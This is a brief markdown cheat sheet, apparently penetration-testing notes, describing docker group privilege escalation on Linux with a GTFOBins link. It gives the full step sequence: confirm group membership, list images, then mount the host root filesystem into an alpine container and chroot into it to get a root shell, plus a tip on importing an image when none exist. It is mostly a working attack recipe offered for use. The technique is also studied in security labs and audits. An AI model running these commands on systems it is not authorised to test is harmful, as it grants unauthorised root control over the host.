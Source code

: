 # Docker Group Privilege Escalation

Link: https://gtfobins.github.io/gtfobins/docker/

## Steps:

### 1) Confirm the user belongs in the docker group

    id

### 2) Check for images we can run

    docker image list

### 3) Get root shell

    docker run -v /:/mnt --rm -it alpine chroot /mnt sh

## TIP: If there are no images on the machine, you can import one yourself and use this to achieve root!
